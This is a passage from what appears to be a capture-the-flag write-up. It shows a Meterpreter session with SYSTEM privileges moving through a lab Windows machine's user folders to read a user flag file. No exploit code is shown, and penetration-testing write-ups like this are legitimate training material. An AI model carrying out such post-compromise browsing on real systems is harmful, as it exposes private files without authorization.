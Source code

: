 ```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

#### Obtaining user flag

```bash
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
C:\
meterpreter > cd Documents\ and\ Settings
meterpreter > pwd
C:\Documents and Settings
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40777/rwxrwxrwx  0     dir   2017-03-16 02:07:20 -0400  Administrator
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  All Users
40777/rwxrwxrwx  0     dir   2017-03-16 01:20:29 -0400  Default User
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
40777/rwxrwxrwx  0     dir   2017-03-16 01:32:42 -0400  NetworkService
40777/rwxrwxrwx  0     dir   2017-03-16 01:33:41 -0400  john

meterpreter > cd john
meterpreter > ls
Listing: C:\Documents and Settings\john
=======================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Application Data
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Cookies
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Desktop
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Favorites
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Local Settings
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  My Documents
100666/rw-rw-rw-  524288  fil   2017-03-16 01:33:41 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2017-03-16 01:33:41 -0400  NTUSER.DAT.LOG
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  NetHood
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  PrintHood
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Recent
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  SendTo
40555/r-xr-xr-x   0       dir   2017-03-16 01:33:41 -0400  Start Menu
40777/rwxrwxrwx   0       dir   2017-03-16 01:33:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2017-03-16 01:33:42 -0400  ntuser.ini

meterpreter > cd Desktop
meterpreter > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  32    fil   2017-03-16 02:19:32 -0400  user.txt

meterpreter > cat user.txt
```
